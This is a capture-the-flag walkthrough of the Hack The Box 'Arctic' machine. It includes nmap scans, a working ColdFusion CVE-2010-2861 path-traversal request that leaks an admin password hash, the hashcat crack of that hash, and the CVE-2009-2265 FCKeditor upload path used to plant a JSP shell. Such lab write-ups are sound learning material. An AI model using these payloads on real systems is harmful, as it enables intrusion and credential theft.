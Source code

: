
### Index
1. Locating nmap NSE script 
2. Enumerating RPC



Initial Enumeration (subdomain, vhosts, directories/files)

```
$ nmap -T4 --min-rate=1000 -p- -sC -sV -Pn 10.10.10.11 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-01 00:49 EDT
Nmap scan report for arctic.htb (10.10.10.11)

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Just because port 135 is open. Trying out RPC Enum
```
$ locate -r nse$ | grep msrpc  
/usr/share/nmap/scripts/msrpc-enum.nse

$ sudo nmap -p135 --script=msrpc-enum -sS -sC -sV 10.10.10.11
PORT    STATE SERVICE VERSION
135/tcp open  msrpc   Microsoft Windows RPC
```

Upon access the site on port 8500, the CVE-2010-2861 Directory Traversal Vulnerability was present. I read the [PoC ](https://github.com/vulhub/vulhub/blob/master/coldfusion/CVE-2010-2861/README.md) and found the backend admin password.
```
Request:
GET /CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en HTTP/1.1
Host: arctic.htb:8500
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: CFID=200; CFTOKEN=84509656
Upgrade-Insecure-Requests: 1

Response:
<title>#Wed Mar 22 20:53:51 EET 2017
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true</title>
```

using auxiliary/scanner/http/coldfusion_locale_traversal in msf
```

```

Trying to identify the hash as well
```
$>$hashid 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
Analyzing '2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03'
[+] SHA-1 
[+] Double SHA-1 
[+] RIPEMD-160 
[+] Haval-160 
[+] Tiger-160 
[+] HAS-160 
[+] LinkedIn 
[+] Skein-256(160) 
[+] Skein-512(160) 

```

Cracking the above hash and got the admin password for Adobe Coldfusion
```
$ hashcat -m 100 -a 0 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 /usr/share/wordlists/rockyou.txt
2f635f6d20e3fde0c53075a84b68fb07dcec9b03:happyday  
```

After digging into Admin Panel, I did not find any place to host my reverse Shell. I was able to create archives, backups, connectors but nothing was helping me to host my shell. Under the system settings in Admin panel, i notice that the user 'tolis' is mention and the adobe cold fusion is deployed as user 'tolis'. I googled ColdFusion RCE and found this [Exploit-DB](https://www.exploit-db.com/exploits/50057) exploit which is CVE-2009-2265. The vulnerability exist in FCKeditor and the path to upload files is unrestricted. However, I was not able to locate where is the FCKeditor from the Admin panel. I have the exploit. Felt like I'm just a noob that don't know what the exploit is doing. But Reading the [GitHub Repo](https://github.com/0xConstant/CVE-2009-2265 ) make little bit things clear in my brain. 

After reading [This Article](https://codewatch.org/2013/12/07/manually-penetrating-the-fckedit-vulnerability-cve-2009-2265/) Things were little bit clear that during my earlier enumeration, I forgot to take a look at the following path when I open http://arctic.htb:8500/ 
```
/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/
```

Now the Exploit-DB exploit that I have used earlier, make sense that my JSP shell is being uploaded to the following location.
```
/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/{filename}.jsp%00
```

I have the path present on my target and I use the exploit to capture the Tolis user flag.